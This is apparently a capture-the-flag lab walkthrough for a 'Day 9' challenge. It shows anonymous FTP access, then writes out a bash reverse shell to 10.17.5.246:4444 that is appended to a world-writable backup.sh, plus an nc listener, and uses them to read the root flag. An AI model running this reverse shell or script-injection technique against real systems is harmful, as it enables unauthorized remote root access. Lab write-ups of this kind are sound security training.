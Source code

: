 
# Day9

## Anyone can be Santa!

Deploy the machine and go through the given information. And, let’s move on to the questions!

First, just ***FTP*** into the machine: `ftp <machine_ip>`

**Make sure to have username: anonymous**

Now, if we ***ls*** to see what directories are available over there, only 1 has data. And we can also access it as anonymous. 

![46](https://user-images.githubusercontent.com/83836972/122225194-7bc69d00-ced2-11eb-915d-730ff4c2548e.PNG)

And there you get the answer to the first question.

Next, we use ***cd*** to change into it, then ***ls*** again to see the content.

![47](https://user-images.githubusercontent.com/83836972/122225217-7ff2ba80-ced2-11eb-9571-811d3659968b.PNG)

And boom, here is the answer to question 2.

There are two files and we can download them using `get <filename>`. 


Now, if you open the ***shoppinglist.txt*** in nano using `nano shoppinglist.txt`, you'll see a movie name in the editor, which is none other than the answer of our question number 3.

![48](https://user-images.githubusercontent.com/83836972/122225246-85500500-ced2-11eb-941d-11db95c21ff9.PNG)

And if you open, ***backup.sh*** in nano using the same command you used before, you'll see that it is a ***Backup script that absolutely should not be in the public folder. We even have permissions to upload in that folder.***

Also, if you've gone through the dossier carefully, you know which command to execute here! But what else are we here for if not to help you!

We'll add `bash -i >& /dev/tcp/10.17.5.246/4444 0>&1`
here:

![49](https://user-images.githubusercontent.com/83836972/122225274-8b45e600-ced2-11eb-8a32-f4605f479e02.PNG)

Before we upload the modified script, we need to set up a listener for our reverse shell. 

`nc -lvnp 4444`

Now we can upload the scrip with `put backup.sh`  

**Remember to put this up in ftp only.**

![50](https://user-images.githubusercontent.com/83836972/122225296-900a9a00-ced2-11eb-9832-0b38033c0e02.PNG)

After a minute or two, we should get a connection on our listener.

And then, with `cat /root/flag.txt` we read our final flag.

![51](https://user-images.githubusercontent.com/83836972/122225325-96991180-ced2-11eb-9326-c708c1b26ae8.PNG)

Submit your answers and don't forget to maintain your streak!
